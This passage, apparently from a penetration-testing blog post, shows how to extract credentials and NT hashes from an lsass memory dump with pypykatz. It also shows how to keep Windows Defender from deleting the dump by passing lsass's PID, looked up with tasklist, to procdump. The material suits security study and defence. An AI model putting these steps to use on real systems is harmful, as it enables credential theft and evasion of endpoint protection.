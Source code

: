 [![Pypykatz Example](/assets/uploads/2019/11/pypykatz_example.png)](/assets/uploads/2019/11/pypykatz_example.png)

```
pypykatz lsa minidump lsass.dmp
```

Thanks to this project, it is now possible to do everything from a Linux machine. All the steps presented in the previous section are applicable, and when lsass dump has been downloaded to the attacker's host, pypykatz is used to extract usernames and passwords or NT hashes from this dump.

So far so good, let's go deeper.

### Windows Defender

A second limitation due to Windows Defender was encountered. Although procdump is a trusted tool from Windows perspective, dumping lsass is considered as suspicious activity by Windows Defender. When the dumping process is finished, Windows Defender removes the dump after a few seconds. If we have very good connectivity and the dump is not too big, it is possible to download the dump before it's being deleted.

This is way too random for me. After looking at the procdump documentation, I realized that it was also possible to provide it with a process identifier (PID). And surprise, by providing it with lsass PID, Windows Defender no longer complains.

Neat ! We just have to find lsass PID, using the command `tasklist` for example.

```
> tasklist /fi "imagename eq lsass.exe"

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
lsass.exe                      640 Services                   0     15,584 K
```
